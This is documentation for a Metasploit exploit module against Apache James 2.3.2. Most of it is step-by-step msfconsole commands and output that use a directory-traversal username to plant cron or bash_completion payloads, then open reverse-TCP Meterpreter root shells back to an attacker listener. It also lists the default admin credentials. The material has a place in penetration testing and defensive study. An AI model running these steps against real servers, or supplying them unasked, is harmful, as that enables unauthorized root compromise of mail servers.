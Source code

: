 ## Vulnerable Application  
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2. By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file. Instructions for installing the vulnerable application for testing can be found here:  
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf  
  
## Verification Steps  
  **If using Cron exploitation method:** This method allows for automatic execution of the payload with no user interaction required and gives the attacker root privileges. It will also attempt to automatically cleanup the malicious user and the mail objects.</br></br>
  __1.__ Load the module:  
```
  msf5 > use exploit/linux/smtp/apache_james_exec  
```

  __2.__ Set remote and local options:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1  
  target => 1  
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169  
  rhosts =>  192.168.224.169  

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167  
  lhost => 192.168.224.167  
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444  
  lport => 4444  
```

  __3.__ Set payload:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
```

  __4.__ Check version and run exploit:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > check  
  [*] 192.168.224.164:25 - The target appears to be vulnerable.  
  msf5 exploit(linux/smtp/apache_james_exec) > exploit  
  
  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```  
  
  ---------------------------------------------------------------------------------------------  
**If using Bash Completion:** This method may be preferable if targeting a linux operating system such as some versions of Ubuntu that fails to run the cron method for exploitation. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account.</br></br>
  
  __1.__ Load the module:  
```
  msf5 > use exploit/linux/smtp/apache_james_exec  
```

  __2.__ Set remote and local options:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 0  
  target => 0  
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164  
  rhosts => 192.168.224.164

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167  
  lhost => 192.168.224.167  
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444  
  lport => 4444  
```

  __3.__ Set payload:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
```

  __4.__ Check version and run exploit:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > check  
  [*] 192.168.224.164:25 - The target appears to be vulnerable.  
  msf5 exploit(linux/smtp/apache_james_exec) > exploit  

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)  
```

  __5.__ Set up and run listener (Can be done before running exploit):  
```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler  
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
  msf5 exploit(multi/handler) > set lport 4444  
  lport => 4444  
  msf5 exploit(multi/handler) > set lhost 192.168.224.167  
  lhost => 192.168.224.167    

  msf5 exploit(multi/handler) > run  

  [*] Started reverse TCP handler on 192.168.224.167:4444  
  [*] Sending stage (3021284 bytes) to 192.168.224.164  
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800  

  meterpreter >  
```

## Options  
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.  
  **RHOSTS:**  The IP address of the vulnerable server.  
  **RPORT:**  The port number of the SMTP service.  

## Targets
```
  Id  Name 
  --  ----
  0   Bash Completion  
  1   Cron  
```

## References  
  1. <https://www.exploit-db.com/exploits/35513>  
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
